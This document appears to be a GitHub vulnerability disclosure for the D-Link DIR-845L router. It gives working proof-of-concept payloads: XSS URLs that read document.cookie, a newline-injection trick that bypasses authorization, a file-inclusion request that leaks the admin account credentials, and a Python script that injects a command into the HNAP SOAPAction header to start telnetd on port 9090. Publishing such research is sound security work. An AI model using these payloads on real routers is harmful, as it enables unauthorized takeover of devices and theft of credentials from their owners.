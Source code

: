# DIR-845L Vulnerabilities

## Summary

**Vendor** : D-Link

**Product** : DIR-845L Router

**Firmware Link** : You can download firmware at ([https://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=146&amp;model=DIR-845L](https://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=146&model=DIR-845L))![1712906917761](image/poc/1712906917761.png)

**emulate firmware by using FirmAE([https://github.com/pr0v3rbs/FirmAE](https://github.com/pr0v3rbs/FirmAE))**

### Vulnerabilities Summary

+ **XSS**
+ **Permission bypass**
+ **Information disclosure**
+ **Command injection**

### XSS

+ /htdocs/webinc/js/bsc_sms_inbox.php line: 17
  + var get_Treturn = '`<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';`
+ The parameter **$_GET["Treturn"]** has no filter.So the poc:
  + http://192.168.0.1/bsc_sms_inbox.php?Treturn=1';alert(document.cookie)![1712899623187](image/poc/1712899623187.png)
+ /htdocs/webinc/js/info.php line:27 -30 same problem poc:
  + http://192.168.0.1/info.php?RESULT=",msgArray);alert(document.cookie);//![1712899687559](image/poc/1712899687559.png)

### Permission bypass

+ /htdocs/web/getcfg.php line:83-94
+ ```php
  function is_power_user()
  {
  	if($_GLOBALS["AUTHORIZED_GROUP"] == "")
  	{
  		return 0;
  	}
  	if($_GLOBALS["AUTHORIZED_GROUP"] < 0)
  	{
  		return 0;
  	}
  	return 1;
  }
  ```
+ We can see the `$_GLOBALS["AUTHORIZED_GROUP"]` need to be greater than 0 and not a null.

  Phpcgi is a symbolic link to cgibin. Phpcgi is responsible for processing requests to .php, .asp and .txt pagesIt can be 	through URL, HTTP head or POST request sent by body data analysis.The phpcgi will create a long string, and the string will be treated as a series of key value pairs, and are used in `$_GET, $_POST and $_SERVER` dictionary and PHP script variable.Nevertheless, if a request is crafted in a proper way, an attacker can easily bypass authorization.

  Each of the key values pairs is encoded in the following form: _TYPE_KEY = VALUE, where TYPE can be GET, POST, or SERVER. Next, the key value pairs are connected using the branch character '\n'. In this way, we can build a packet by itself to bypass some permission validation.Such like this:

`	xxx=%0a_POST_AUTHORIZED_GROUP%3d1`

### Information disclosure

+ /htdocs/web/getcfg.php line:94-147/htdocs/web/web/web.php line：94-147
  ```php
  if ($_POST["CACHE"] == "true")
  {
  	echo dump(1, "/runtime/session/".$SESSION_UID."/postxml");
  }
  else
  {
  	if(is_power_user() == 1)
  	{
  		/* cut_count() will return 0 when no or only one token. */
  		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
  		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
  		$SERVICE_INDEX = 0;
  		while ($SERVICE_INDEX < $SERVICE_COUNT)
  		{
  			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
  			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
  			if ($GETCFG_SVC!="")
  			{
  				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
  				/* GETCFG_SVC will be passed to the child process. */
  				if (isfile($file)=="1")
  				{
  					if(get("", "/runtime/device/sessions_privatekey")==1)
  					{
  						AES_Encrypt_DBnode($GETCFG_SVC, "Encrypt");
  						dophp("load", $file);
  						AES_Encrypt_DBnode($GETCFG_SVC, "Decrypt");
  					}
  					else
  					{	dophp("load", $file);}
  				}
  			}
  			$SERVICE_INDEX++;
  		}
  	}
  	else
  	{
  		/* not a power user, return error message */
  		echo "\t<result>FAILED</result>\n";
  		echo "\t<message>Not authorized</message>\n";
  	}
  }
  ```
+ We can see `dophp("load", $file)`, the function like a `include()` .
+ The variable `$file`  is made up of `$GETCFG_SVC`, then `$GETCFG_SVC` comes from `$_POST["SERVICES"]`, there is also no filter,so we can control the variable `$file` , and the permission validation is_power_user() can be bypassed by last trick. In this way,we can include any other php scripts to get some important informations,such like DEVICE.ACCOUNT.xml.php, it returns a username and password to a router,then we can login in the router.
+ poc
  + http://192.168.0.1/getcfg.php?a=%0a_POST_SERVICES%3DDEVICE.ACCOUNT%0aAUTHORIZED_GROUP%3D1
  + response(password is empty)
  + ![1712900106005](image/poc/1712900106005.png)

### Command injection

+ vlun in hnap_main()func
  + v0 = strrchr("http://purenetworks.com/HNAP1/GetDeviceSettings", 47);
  + Can be noticed, however, STRSTR used in string check, which suggests that the SOAPAction header just includes the http://purenetworks.com/HNAP1/GetDeviceSettings string, can through the inspection, to bypass the authentication.
    So, if SOAPAction header contains the string http://purenetworks.com/HNAP1/GetDeviceSettings, The code resolves the name of the Action (such as GetDeviceSettings) from the request header and removes the double quotation marks at the end of the string
+ also could cause CSRF but command injection is critical
+ poc when it posted,it will open telnet service on port 9090
+ ```python
  import socket
  import struct

  buf = "POST /HNAP1/ HTTP/1.0\r\nHOST: 192.168.0.1\r\nUser-Agent: test\r\nContent-Length: 1\r\nSOAPAction:http://purenetworks.com/HNAP1/GetDeviceSettings/" + ';echo "success" > mytest.php;telnetd -p 9090;test\r\n' + "1\r\n\r\n"

  print "[+] sending buffer size", len(buf)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(("192.168.0.1", 80))
  s.send(buf)
  ```
+ ![1712902459101](image/poc/1712902459101.png)

### XSS

+ xss inside /htdocs/webinc/body/bsc_sms_send.php

  ```php
  […]
                  var msgArray =
                  [
                          '<?echo i18n("You have successfully configured your router to use OpenDNS Parental Control.");?>',
                          '<?echo i18n("Do you want to test the function?");?>',
                          '<p><input type="button" value="<?echo i18n('Test');?>" onclick="window.open(\'http://www.opendns.com/device/welcome/?device_id=<? echo $_GET["deviceid"];?>\')" /><input type="button" value="<?echo i18n('Return');?>" onClick="self.location.href=\'adv_parent_ctrl.php\';" /></p>'
                  ];
                  BODY.ShowMessage('<?echo i18n("OpenDNS PARENTAL CONTROLS");?>', msgArray);
  […]
  ```
+ poc

  + http://192.168.0.1/bsc_sms_send.php?receiver=">`<script>`alert(document.cookie)`</script>`<"

### XSS

+ xss inside /htdocs/ webinc/js/bsc_sms_inbox.php

  + ```
    […]
            InitValue: function(xml)
            {
                    var get_Treturn = '<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';
             … 
            }
    […]
    ```
+ poc

  + http://192.168.0.1/bsc_sms_inbox.php?Treturn=0';alert(document.cookie);get_Treturn='1

XSS
